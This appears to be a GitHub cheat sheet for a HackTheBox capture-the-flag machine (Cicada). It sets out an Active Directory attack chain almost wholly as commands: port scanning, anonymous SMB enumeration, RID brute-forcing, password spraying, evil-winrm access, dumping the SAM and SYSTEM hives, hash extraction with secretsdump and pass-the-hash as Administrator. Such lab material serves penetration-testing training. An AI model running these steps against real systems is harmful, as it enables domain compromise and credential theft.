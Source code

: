 ## Easy Box:

Here's an enhanced AD exploitation methodology with commands for each step:

---

### Methodology for AD Enumeration and Exploitation

#### **1. Initial Reconnaissance and Scanning**

   - **Identify Open Ports**: Use `nmap` to scan common AD ports.
     ```bash
     nmap $target --top-ports=1000 -sV -v -sC -Pn > nmap.out
     ```

   - **Host Configuration**: Update `/etc/hosts` with the target hostname if needed.
     ```bash
     echo "$target cicada.htb" | sudo tee -a /etc/hosts
     ```

#### **2. SMB Enumeration and Credential Gathering**

   - **Anonymous SMB Access**: Use `smbclient` to list available shares.
     ```bash
     smbclient -L //$target -N
     ```

   - **User Enumeration with RID Brute-forcing**:
     ```bash
     nxc smb $target -u 'anonymous' -p '' --rid-brute 3000
     ```

   - **SMB Information Gathering**:
     ```bash
     enum4linux-ng -A $target
     ```

#### **3. Password Discovery and Validation**

   - **Testing Credentials**: Use tools like `hydra` or `crackmapexec` to test passwords.
     ```bash
     hydra -L usernames.txt -p $password smb://$target
     ```

   - **Access Restricted Shares with Discovered Credentials**:
     ```bash
     smbclient //$target/DEV -U 'username' -p 'password'
     ```

#### **4. Initial Foothold**

   - **Remote Access**: Use `evil-winrm` to log in with valid credentials.
     ```bash
     evil-winrm -i $target -u 'username' -p 'password'
     ```

#### **5. Privilege Escalation**

   - **Identify Special Privileges**:
     ```bash
     whoami /all
     ```

   - **Backup Privileges**: Use `reg` to save critical files to accessible locations.
     ```bash
     reg save hklm\sam c:\Temp\sam
     reg save hklm\system c:\Temp\system
     ```

#### **6. Extract and Use Password Hashes**

   - **Download SAM and SYSTEM Files**:
     ```bash
     download c:\Temp\sam
     download c:\Temp\system
     ```

   - **Dump Password Hashes**:
     ```bash
	python3 secretsdump.py -sam sam -system system LOCAL > hashes.txt
     ```

   - **Root Access**: Use `evil-winrm` with Administrator hash.
     ```bash
	evil-winrm -i $target -u 'Administrator' -H 'aad3b435b51404eeaad3b435b51404ee:hash'
     ```

This methodical approach covers enumeration, initial access, and privilege escalation for AD exploitation for an easy box. Took from Cicada machine.

##### Reference: 

1. [Medium Cicada machine Walkthrough](https://medium.com/@misterxcrypt/cicada-walkthrough-hackthebox-2bb9f961ea42)
2. [Sickboy github AD Cheat sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)

---

